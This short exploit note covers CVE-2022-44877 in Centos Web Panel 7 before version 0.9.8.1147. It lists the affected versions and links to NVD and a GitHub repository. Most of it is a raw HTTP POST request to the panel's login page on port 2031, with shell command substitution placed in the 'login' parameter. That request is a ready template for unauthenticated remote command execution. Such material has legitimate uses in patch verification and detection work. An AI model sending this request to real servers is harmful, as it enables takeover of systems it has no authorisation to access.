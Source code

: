 ### Affected versions
```
Centos Web Panel 7 - < 0.9.8.1147
```

### Execute
```
POST /login/index.php?login=$(<command>) HTTP/1.1
Host: <rhost>:2031
[...]
Accept-Encoding: gzip, deflate
Accept-Language: en
Connection: close

username=user&password=password&commit=Login
```

### References
* https://github.com/numanturle/CVE-2022-44877
* https://nvd.nist.gov/vuln/detail/CVE-2022-44877
* https://www.youtube.com/embed/kiLfSvc1SYY

